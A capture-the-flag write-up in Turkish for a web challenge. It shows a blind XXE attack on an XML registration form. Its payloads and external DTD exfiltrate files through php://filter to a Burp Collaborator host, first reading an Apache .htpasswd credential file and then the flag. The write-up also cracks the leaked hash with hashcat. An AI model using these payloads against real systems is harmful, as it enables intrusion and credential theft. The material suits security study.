










# At - Web 300


```
http://54.227.36.103/
```


Karşımızda bir register page vardı. Burp'ü açıp üye olmaya çalıştık.




`XML` şeklinde idi. `XML`'i gördüğümüz gibi `XXE` vardır dedik. Collaborator'u açıp PoC yapalım dedik



 Bize dönüyordu.

 

[`PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injections) Hazretleri işimizi çok kolaylaştırmıştı.


``` xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://xx.xx.xx.xx/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

`dtd.xml`'in içi ise böyle olacaktı
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=dosya.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://burpCollabator/dtd.xml?%data;'>">
```
Hemen `AWS`'den sunucu açıp  işe koyulduk. Fakat hangi dosyayı okuyacaktık? sorun tam olarak buydu. `Dirb`'i açıp fuzzlamaya başladık



`http://54.227.36.103/flag` vardı. Fakat ` 401 Unauthorized` vermiş yani `HTTP Authentication` varmış.




`Server: Apache/2.4.29 (Win32) OpenSSL/1.1.0g PHP/7.2.1` Headeri karşı tarafta Windows üzerinde Apache kullandığını gösteriyordu. Yani `HTTP Authentication` bilgileri `.htpasswd` içerisinde saklanıyordu.

iki ihtimal vardı.

```
C:/xampp/htdocs/.htpasswd
C:/wamp/htdocs/.htpasswd
```
`xampp` ile denemeye başladık ve şansımıza `xampp`mış.

sunucumuzdaki `dtd` dosyasını şu şekilde güncelledik.

``` xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://j5pu2wukt3yh21h7g7kqkqndf4ly9n.burpcollaborator.net/?%data;'>">

```


```
stalker:$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/
```
diye dönüş aldık. `$apr1$` kısmı `Apache MD5` anlamına geliyordu. `rockyou.txt` ve `hashcat` ikilisi ile kırılıyordu. ( kusura bakmayın fotoğrafını çekecek vaktim yoktu.)

```
gangstagangsta
```

Şifremiz `gangstagangsta` olduğuna göre girebilirdik. Oraya bakalim dedik. `flag_3289erpd.txt.jpg` adlı bir resim geliyordu.




Fakat flag burada değildi. Spider ile baktığımızda



`files.txt` diye bir dosya vardı.



Dosyanın içinde `flag_\d{4}[a-zA-Z]{4}\.txt` adlı bir dosya vardı. Anam bu resimin ismi ile regexp bire bir gibi değilmi dedik ve `dtd` dosyasını güncelledik.


```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://j5pu2wukt3yh21h7g7kqkqndf4ly9n.burpcollaborator.net/?%data;'>">

Ve flag bize gülümsüyordu.

```


Ve flag

```
DKHOS_{v4yT_c4kl1t_m0k4}
```
